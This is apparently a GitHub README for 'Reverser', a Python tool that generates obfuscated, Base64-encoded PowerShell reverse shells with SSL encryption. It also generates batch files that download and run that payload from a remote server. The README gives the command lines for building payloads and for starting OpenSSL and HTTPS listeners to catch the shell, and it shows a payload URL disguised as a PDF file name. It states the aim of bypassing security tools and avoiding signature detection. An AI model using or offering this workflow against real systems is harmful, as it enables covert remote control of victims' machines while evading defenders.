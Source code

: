 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.


Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)



Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)



Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:

![image](https://github.com/user-attachments/assets/049f45bf-f014-47d8-92ef-4514294745cf)




Receiving a response from the listener server and establishing a Reverse shell from the workstation:

![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)



The encrypted network traffic:

![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)



And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)




